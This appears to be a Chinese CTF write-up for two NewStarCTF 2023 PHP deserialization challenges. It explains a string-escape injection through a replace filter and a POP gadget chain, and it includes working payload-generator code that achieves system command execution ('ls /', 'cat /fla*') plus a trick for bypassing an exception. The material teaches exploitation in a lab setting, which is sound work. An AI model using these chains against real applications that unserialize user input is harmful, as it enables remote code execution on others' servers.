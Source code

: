 ```yaml
---
title: NewStarCTF2023 week4 反序列化记录
date: 2023-10-24 11:36 +0800
categories: [CTF,WEB]
tags: [反序列化,web]
img_path: /assets/images/
---
```




## 逃

```php
<?php
highlight_file(__FILE__);
function waf($str){
    return str_replace("bad","good",$str);
}

class GetFlag {
    public $key;
    public $cmd = "whoami";
    public function __construct($key)
    {
        $this->key = $key;
    }
    public function __destruct()
    {
        system($this->cmd);
    }
}

unserialize(waf(serialize(new GetFlag($_GET['key'])))); 
```

这里传入的 `key` 先序列化，在反序列化。

这里的 序列化后 有一个waf 会将 bad 替换成 good，

我们先 正常 传入一个key，进行反序列化得到一个正常的payload

```
O:7:"GetFlag":2:{s:3:"key";s:4:"test";s:3:"cmd";s:6:"whoami";}
```

我们需要伪造的就是 `";s:3:"cmd";s:6:"whoami";}` 这一串，test后面的。

因为，bad 替换成 good 后，中间的 key 的 值 会变长，但是读取的字符串长度是固定的（`s:4:`），就可以让后面的部分`";s:3:"cmd";s:6:"whoami";}`不在反序列化的范围内。

如下面的图，经过waf后，第四段就不在反序列化的范围内了。

![image-20231024093431830](NewStarCTF 2023_week4.assets/image-20231024093431830.png)



```php
<?php
$cmd = 'ls /';
// ";s:3:"cmd";s:6:"whoami";}
$payload = '";s:3:"cmd";s:' . strlen($cmd) . ':"' . $cmd . '";}';
$badstr =  str_repeat('bad', strlen($payload));
$key = $badstr . $payload;
echo $key;

# badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:4:"ls /";}
```

我们简单的理解一下，就可以写成一个 payload 生成器。

![image-20231024094642983](NewStarCTF 2023_week4.assets/image-20231024094642983.png)

注：

```php
<?php

use GetFlag as GlobalGetFlag;

class GetFlag {
    public $key = 'badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:4:"ls /";}';
    public $cmd = "whoami";
}
// O:7:"GetFlag":2:{s:3:"key";N;s:3:"cmd";s:6:"whoami";}
// ";s:3:"cmd";s:6:"whoami";}
// ";s:3:"cmd";s:4:"ls /";}
// O:7:"GetFlag":2:{s:3:"key";s:96:"badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:4:"ls /";}";s:3:"cmd";s:6:"whoami";}

echo serialize(new GlobalGetFlag());
```





## More Fast

```php
<?php
highlight_file(__FILE__);

class Start{
    public $errMsg;
    public function __destruct() {
        die($this->errMsg);
    }
}

class Pwn{
    public $obj;
    public function __invoke(){
        $this->obj->evil();
    }
    public function evil() {
        phpinfo();
    }
}

class Reverse{
    public $func;
    public function __get($var) {
        ($this->func)();
    }
}

class Web{
    public $func;
    public $var;
    public function evil() {
        if(!preg_match("/flag/i",$this->var)){
            ($this->func)($this->var);
        }else{
            echo "Not Flag";
        }
    }
}

class Crypto{
    public $obj;
    public function __toString() {
        $wel = $this->obj->good;
        return "NewStar";
    }
}

class Misc{
    public function evil() {
        echo "good job but nothing";
    }
}

$a = @unserialize($_POST['fast']);
throw new Exception("Nope");
```

pop链

```
WEB::evil()
Pwn::__invoke[obj] --> WEB::evil()
Reverse::__get[func] --> Pwn::__invoke
Crypto::__toString[obj] --> Reverse::__get
Start::__destruct[errMsg] --> Crypto::__toString
```

```php
<?php

use Crypto as GlobalCrypto;
use Pwn as GlobalPwn;
use Reverse as GlobalReverse;
use Start as GlobalStart;
use Web as GlobalWeb;

class Start{
    public $errMsg;
    public function __destruct() {
        die($this->errMsg);
    }
}

class Pwn{
    public $obj;
    public function __invoke(){
        $this->obj->evil();
    }
}

class Reverse{
    public $func;
    public function __get($var) {
        ($this->func)();
    }
}

class Web{
    public $func;
    public $var;
    public function evil() {
        if(!preg_match("/flag/i",$this->var)){
            ($this->func)($this->var);
        }else{
            echo "Not Flag";
        }
    }
}

class Crypto{
    public $obj;
    public function __toString() {
        $wel = $this->obj->good;
        return "NewStar";
    }
}

class myclass{}


$a = new GlobalWeb();
$a->func = 'system';
$a->var = 'cat /fla*';

$b = new GlobalPwn();
$c = new GlobalReverse();
$d = new GlobalCrypto();
$e = new GlobalStart();

$b->obj = $a;
$c->func = $b;
$d->obj = $c;
$e->errMsg = $d;


$payload = serialize(array($e, null));
$payload = str_replace(':1;', ':0;', $payload);
echo $payload;
```



![image-20231024112410706](NewStarCTF 2023_week4.assets/image-20231024112410706.png)



![image-20231024112832877](NewStarCTF 2023_week4.assets/image-20231024112832877.png)
